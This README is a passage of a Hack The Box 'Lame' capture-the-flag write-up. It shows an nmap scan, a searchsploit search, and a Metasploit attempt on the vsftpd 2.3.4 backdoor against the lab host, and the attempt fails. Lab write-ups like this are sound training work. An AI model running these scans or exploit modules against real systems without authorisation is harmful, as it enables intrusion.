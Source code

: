 # htb-lame
This is my [Hack the box](https://www.hackthebox.eu/)'s Lame machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.3

Level: Easy

## Scan
[Nmap](https://github.com/nmap/nmap) scan of the target:

`nmap -sV -sC -oN lame.nmap 10.10.10.3`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/lame# nmap -sV -sC -oN lame.nmap 10.10.10.3
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-23 08:28 EDT
Nmap scan report for 10.10.10.3
Host is up (0.017s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.36
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2d22h55m26s, deviation: 0s, median: -2d22h55m26s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-20T05:33:31-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.49 seconds
```

## FTP service
Let's see what we can get from the FTP service. First, search for exploits using [searchsploit](https://github.com/offensive-security/exploitdb):
```bash
root@kali:~/htb/lame# searchsploit vsftpd 2.3.4
---------------------------------- ----------------------------------------
 Exploit Title                    |  Path
                                  | (/usr/share/exploitdb/)
---------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command E | exploits/unix/remote/17491.rb
---------------------------------- ----------------------------------------
Shellcodes: No Result
```

This may be interesting. Use [Metasploit](https://github.com/rapid7/metasploit-framework) to get more information:
```bash
root@kali:~/htb/lame# metasploit

msf > search vsftpd 2.3.4
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                                      Disclosure Date  Rank       Description
   ----                                                      ---------------  ----       -----------
   auxiliary/gather/teamtalk_creds                                            normal     TeamTalk Gather Credentials
   exploit/multi/http/oscommerce_installer_unauth_code_exec  2018-04-30       excellent  osCommerce Installer Unauthenticated Code Execution
   exploit/multi/http/struts2_namespace_ognl                 2018-08-22       excellent  Apache Struts 2 Namespace Redirect OGNL Injection
   exploit/unix/ftp/vsftpd_234_backdoor                      2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Try to exploit the backdoor:
```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
   
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
No luck here.


